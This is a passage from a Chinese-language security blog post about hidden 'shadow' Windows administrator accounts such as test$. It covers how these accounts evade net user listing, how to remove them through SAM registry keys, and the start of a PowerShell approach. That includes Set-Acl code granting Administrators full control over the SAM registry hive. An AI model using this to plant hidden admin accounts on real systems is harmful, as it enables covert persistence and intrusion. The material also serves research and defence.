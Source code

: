 通过net user无法列出该帐户

计算机管理-本地用户和组-用户也无法列出该帐户

但可通过如下方式查看：

```
net user test$
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-11-10/2-7.png)

无法通过`net user test$ /del`删除该用户，提示用户不属于此组，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-11-10/2-8.png)
 

**删除方法：**

删除注册表`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\`下对应帐户的键值(共有两处)

**注：**

工具HideAdmin能自动实现以上的创建和删除操作



## 0x03 编写脚本实现思路
---

采用powershell脚本实现的两种思路：

### 1、对注册表添加管理员帐户的编辑权限

使用regini注册ini文件为注册表及其子键赋予权限

**注：**

Powershell通过`Set-Acl`为注册表赋予权限，示例代码：

```
$acl = Get-Acl HKLM:SAM\SAM\
$person = [System.Security.Principal.NTAccount]"Administrators"
$access = [System.Security.AccessControl.RegistryRights]"FullControl"
$inheritance = [System.Security.AccessControl.InheritanceFlags]"None"
$propagation = [System.Security.AccessControl.PropagationFlags]"NoPropagateInherit"
$type = [System.Security.AccessControl.AccessControlType]"Allow"
$rule = New-Object System.Security.AccessControl.RegistryAccessRule( `
$person,$access,$inheritance,$propagation,$type)
$acl.ResetAccessRule($rule)
Set-Acl HKLM:SAM\SAM\Domains\Account\Users\Names $acl
```

但不支持对子键的权限分配，因此不采用该方法

以下内容保存为a.ini:
